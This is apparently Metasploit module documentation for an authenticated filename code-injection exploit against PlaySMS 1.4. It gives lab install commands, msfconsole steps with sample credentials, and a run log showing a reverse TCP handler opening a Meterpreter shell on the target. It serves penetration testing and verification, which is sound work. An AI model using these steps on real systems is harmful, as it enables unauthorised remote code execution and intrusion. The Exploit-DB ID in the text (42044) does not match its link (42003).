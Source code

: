 ## Description
This module exploits a code injection vulnerability within an authenticated file upload feature in PlaySMS v1.4. This issue is caused by improper file name handling in sendfromfile.php file. Authenticated Users can upload a file and rename the file with a malicious payload. Additional information and vulnerabilities can be viewed on Exploit-DB [42044](https://www.exploit-db.com/exploits/42003/).

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

### Vulnerable Application Installation Setup.
 1. Download Application : `wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 2. Extract : `tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 3. Move In WebDirectory : `mv playsms-1.4/web/* /var/www/html/`
 4. make config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change Owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.
 7. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_filename_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi SecreTSMSgatwayLogin`
 7. Do: `set username touhid`
 8. Do: `set password diana`
 9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Playsms on Ubuntu Linux
```
msf exploit(multi/http/playsms_filename_exec) > run                                                                                    
                                                                                                                                       
[*] Started reverse TCP handler on 10.22.1.3:4444                                                                                      
[+] X-CSRF-Token for login : 13bce9776cfc270a3779e8b557330cc2                                                                          
[*] Trying to Login ......                                                                                                             
[+] Authentication successful : [ touhid:diana ]                                                                                       
[+] X-CSRF-Token for upload : 2780d48dc11a482a58d8a95ad873c6cc                                                                         
[*] Trying to upload file with malicious Filename Field....                                                                            
[*] Sending stage (37775 bytes) to 10.22.1.15                                                                                          
[*] Sleeping before handling stage...                                                                                                  
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.15:38814) at 2018-04-08 13:45:34 +0530                                     
                                                                                                                                       
meterpreter >
```
